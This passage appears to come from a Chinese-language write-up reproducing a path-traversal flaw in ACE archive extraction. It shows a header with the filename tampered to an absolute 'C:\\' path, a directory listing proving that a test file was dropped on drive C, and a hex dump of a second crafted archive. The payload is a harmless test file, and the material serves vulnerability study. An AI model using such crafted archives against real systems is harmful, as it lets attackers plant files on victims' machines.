 ```
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    13
    origsize    13
    datetime    0x4e5b538e  2019-02-27 10:28:28
    attribs     0x00000020  ARCHIVE
    crc32       0x7c434d5c
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:\\TESTPAYLOD.txt'   <--篡改成功
    comment     b''
    ntsecurity  b''
    reserved2   b''


```

5. **直接进行解压，攻击**，可造成在C盘目录下 释放  TESTPAYLOD.txt文件

```
C:\>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 2E73-CE10

 C:\ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2019/02/26  10:49    <DIR>          Program Files
2019/02/26  11:06    <DIR>          Program Files (x86)
2019/02/15  17:03    <DIR>          Python27
2019/02/27  10:28                13 TESTPAYLOD.txt     <-------释放成功
2016/09/05  10:22    <DIR>          Users
2019/02/26  11:18    <DIR>          Windows
```

6. **其他攻击方式和可能性测试**

- **不使用全路径压缩保存ACE，进行攻击**

  在压缩文件时 不选择全目录，构造ACE压缩包如下

  ```cmd
  00000000h: 0E 49 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; .I1...?*ACE**..
  00000010h: 02 00 79 54 5B 4E FE 03 4B E6 4E 20 00 00 16 2A ; ..yT[N?K鍺 ...*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A 2C 7C 36 00 01 01 80 0D 00 00 00 ; SION*,|6...€....
  00000040h: 0D 00 00 00 61 54 5B 4E 20 00 00 00 5C 4D 43 7C ; ....aT[N ...\MC|
  00000050h: 00 03 0A 00 54 45 17 00 43 3A 5C 43 3A 5C 54 45 ; ....TE..C:\C:\TE
  00000060h: 53 54 50 41 59 4C 4F 41 44 30 31 2E 74 78 74 41 ; STPAYLOAD01.txtA
  00000070h: 41 41 41 41 41 41 41 41 41 20 0D 0A             ; AAAAAAAAA ..
  ```
